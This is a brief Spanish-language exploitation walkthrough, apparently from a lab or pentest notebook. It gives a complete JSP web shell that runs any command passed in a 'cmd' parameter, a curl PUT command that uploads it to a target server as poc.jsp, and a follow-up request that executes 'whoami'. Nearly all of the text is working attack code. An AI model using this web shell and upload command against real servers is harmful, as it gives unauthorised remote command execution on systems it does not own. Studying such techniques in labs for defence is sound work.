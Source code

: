 # Explotación

---

## CURL / MANUAL

WebShell a utilizar. Este Payload está escrito en **Java web**.

```java
<FORM METHOD=GET ACTION='poc.jsp'> <INPUT name='cmd' type=text> <INPUT type=submit value='Run'> </FORM> <%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new  InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+"</br>"; }} catch(IOException e) { e.printStackTrace(); }} %> <pre><%=output %></pre>
```

Subida de archivo con payload correspondiente.

```bash
**curl** -X PUT --data '<FORM METHOD=GET ACTION='poc.jsp'> <INPUT name='cmd' type=text> <INPUT type=submit value='Run'> </FORM> <%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new  InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+"</br>"; }} catch(IOException e) { e.printStackTrace(); }} %> <pre><%=output %></pre>' http://*TARGET_IP*:*PORT*/poc.jsp**/**
```

![Untitled](images/Untitled%202.png)

Ejecución del comando **whoami**.

```bash
**curl** http://*TARGET_IP*:*PORT*/poc.jsp?cmd=***whoami***
```

![Untitled](images/Untitled%203.png)

